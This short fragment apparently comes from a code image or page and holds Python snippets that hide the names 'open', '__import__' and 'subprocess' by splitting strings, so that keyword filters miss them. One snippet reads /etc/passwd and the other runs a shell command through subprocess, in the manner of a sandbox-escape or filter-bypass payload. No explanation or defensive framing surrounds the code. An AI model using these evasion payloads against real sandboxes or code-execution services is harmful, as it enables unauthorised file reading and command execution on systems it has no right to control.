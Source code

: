 
```
print(__builtins__.__dict__['o'+'pen']('/etc/passwd', 'r').read())


```

im = __builtins__.__dict__['__im'+'port__']

subprocess_module = im('su'+'bprocess')

cmd_output = subprocess_module.check_output(['ls', '-la']).decode('utf-8')

print(cmd_output)